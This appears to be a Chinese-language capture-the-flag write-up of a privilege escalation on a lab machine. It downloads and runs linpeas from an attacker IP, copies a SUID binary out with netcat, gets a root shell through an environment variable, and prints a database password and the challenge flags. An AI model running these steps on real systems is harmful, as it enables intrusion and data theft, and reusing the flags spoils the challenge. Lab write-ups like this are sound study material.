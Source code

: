 ## 準備提權
- 使用常常出現的工具 linpeas
    - `wget 10.13.21.55:8000/linpeas.sh`
    - `bash linpeas.sh`
    - 我們可以找到 wordpress 的資料庫密碼
        - ![](https://i.imgur.com/1oLP7fH.png)
        - `LittleYellowLamp90!@`
    - 發現 sudo 版本是 1.8.21
        - ![](https://i.imgur.com/P09KTRL.png)
    - 發現一個奇怪的檔案有 `suid`
        - 檔案路徑是 `/usr/sbin/checker`
        - ![](https://i.imgur.com/c9aV2V5.png)
- 觀察 Checker
    - 先把檔案傳出來
        - 攻擊機 `nc -l -p 1234 > checker`
        - 靶機 `nc 10.13.21.55 1234 < checker`
    - 使用 `r2` 分析
        - `r2 checker`
        - `aaa`
        - `s main`
        - `VV`
        - ![](https://i.imgur.com/SrIENP9.png)
        - 可以發現他會把 `admin` 傳入 `getenv`
        - 然後如果有值就會給我們一個 shell
- 回到攻擊機，給予一個 `admin` 的環境變數
    - `admin=meow /usr/sbin/checker`
    - 就拿到 root shell 了
    - ![](https://i.imgur.com/4XC0m19.png)
- 取得 root flag
    - ![](https://i.imgur.com/7NKvSBB.png)
    - `9a0b2b618bef9bfa7ac28c1353d9f318`
- 等等 ... 阿user flag ㄋ
    - 好懶得翻ㄛ...我們就暴力搜ㄅ
    - `find / -iname user.txt -print 2>/dev/null`
        - ![](https://i.imgur.com/c1mpsB0.png)
    - 可以找到 user flag 藏在 `/media/usb/user.txt`
        - ![](https://i.imgur.com/DbGCDlx.png)
        - `c8421899aae571f7af486492b71a8ab7`
- 打完收工!
- 